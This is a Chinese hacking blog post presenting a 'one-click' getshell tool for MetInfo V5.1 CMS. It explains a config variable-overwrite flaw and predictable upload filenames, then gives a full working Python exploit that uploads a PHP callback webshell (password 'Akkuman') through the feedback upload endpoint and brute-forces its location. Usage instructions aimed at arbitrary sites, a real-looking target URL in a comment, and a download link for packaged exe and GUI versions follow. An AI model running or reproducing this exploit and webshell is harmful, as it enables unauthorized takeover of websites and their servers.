 ```yaml
---
title: MetInfo V5.1 GetShell一键化工具
date: 2016-06-08 22:40:32
categories: 
- Hacker
tags: 
- Hacker
- Tools
---
```

----------
# 漏洞解析：
----------
**config/config.inc.php**

```php
$langoks = $db->get_one("SELECT * FROM $met_lang WHERE lang='$lang'");

if(!$langoks)die('No data in the database,please reinstall.');

if(!$langoks[useok]&&!$metinfoadminok)okinfo('../404.html');

if(count($met_langok)==1)$lang=$met_index_type;

$query = "SELECT * FROM $met_config WHERE lang='$lang' or lang='metinfo'";//看这里

$result = $db->query($query);

while($list_config= $db->fetch_array($result)){

	if($metinfoadminok)$list_config['value']=str_replace('"', '&#34;', str_replace("'", '&#39;',$list_config['value']));

	$settings_arr[]=$list_config;

	if($list_config['columnid']){

		$settings[$list_config['name'].'_'.$list_config['columnid']]=$list_config['value'];

	}else{

		$settings[$list_config['name']]=$list_config['value'];

	}

}

@extract($settings);
```
----------
<!--more-->
访问

http:///localhost/metinfo5.1/index.php?lang=metinfo

`SELECT * FROM met_config WHERE lang='metinfo' or lang='metinfo'`

----------
## 文件命名方式：
----------
**/feedback/uploadfile_save.php**
```php
srand((double)microtime() * 1000000);

$rnd = rand(100, 999);

$name = date('U') + $rnd;

$name = $name.".".$ext;

```
**文件保存在/upload/file/目录**

命名方式就是时间戳去掉后三位，紧接着一个三位数的随机数

可爆破：

如

http://127.0.0.1/upload/file/1465394396.php

----------

# 一键化利用工具：

----------

**本程序基于python编写**

```python
#!/usr/bin/env python
#-*- coding: utf-8 -*-

import requests
import Queue
import threading
import time
import sys


headers = {'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.10 Safari/537.36'}

urls = Queue.Queue()
#http://hb.jhxjd.com/upload/file/1441445378.php

def bp(urls,time_out):
    while not urls.empty():
        base_url = urls.get()
        response = None

        try:
            time.sleep(int(time_out))#延时设置
            response = requests.get(base_url,headers=headers)
            if response.status_code == 404:
                print 'Not Fount----%s\n' % base_url
        except:
            continue
        finally:
            if response:
                with open('url.txt','a+') as f:
                    f.write('%s?e=YXNzZXJ0\n'%base_url)

def main(target_url,thread_num,time_out):

    #取出当前时间戳并删除后四位
    now = str(int(time.time()))[:-4]

    #将所有的待爆破地址遍历并加入队列
    for i in range(0,10):
        for j in range(100,1000):
            num_str = ''.join((str(i),str(j)))
            url = ''.join(('%s/upload/file/%s' % (target_url,now),num_str,'.php'))
            urls.put(url)

    #上传文件
    with open('xiaoma.php','w+') as fi:
        fi.write("<?php $e = $_REQUEST['e'];register_shutdown_function(base64_decode($e), $_REQUEST['Akkuman']);?>")
    data = {
            'fd_para[1][para]':'filea',
            'fd_para[1][type]':'5'
            }
    files = {'filea': open("xiaoma.php", 'rb')}
    upload_url = '%s/feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo' % target_url
    res = requests.post(upload_url,data = data,files=files)
    #等待两秒  文件上传
    time.sleep(2)




    #启动多线程
    for i in range(int(thread_num)):
        t = threading.Thread(target = bp,args=(urls,time_out,))
        t.start()


if __name__ == '__main__':
    if len(sys.argv) != 4:
        print 'Example : %s http://www.xxx.com 20 0' % sys.argv[0]
    else:
        main(sys.argv[1],sys.argv[2],sys.argv[3])

```

程序略显粗糙

为了方便，我也把他打包成了**exe**

然后闲着没事，想着简单地给他做了个**界面**,这样的
![GUI](/images/uploads/467265555564577246543847664e6d7366696739786c37515370714d.png)

----------
# 文件说明
----------
> MetInfo V5.1上传漏洞getshell利用工具

> 	作者 : Akkuman

> 漏洞原理详见http://www.wooyun.org/bugs/wooyun-2010-0139168

> 使用说明：
> 本目录有两个文件，一个py，一个exe
> 因为exe是py文件打包而成，故文件较大
> 64位系统测试使用通过
> 
> 如果你安装了py2.x环境  py文件使用方法
> 打开cmd
> python baopo.py http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> exe命令行文件使用方法
> 打开cmd
> baopo.exe http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> GUI程序，应该不用说
> 
> 关于getshell与结果
> 上传的是回调一句话木马
> ```php
> <?php >$e=$_REQUEST['e'];register_shutdown_function(base64_decode($e),$_>REQUEST['Akkuman']);?>
> ```
> 菜刀连接，密码是Akkuman
> 
> 爆破结果会生成在**url.txt**

----------
# 下载地址：
----------
[(访问码:1475)](http://cloud.189.cn/t/v263QbMJVJ3u )

*转载请注明出处*

*作者博客 hacktech.cn | 53xiaoshuo.com*
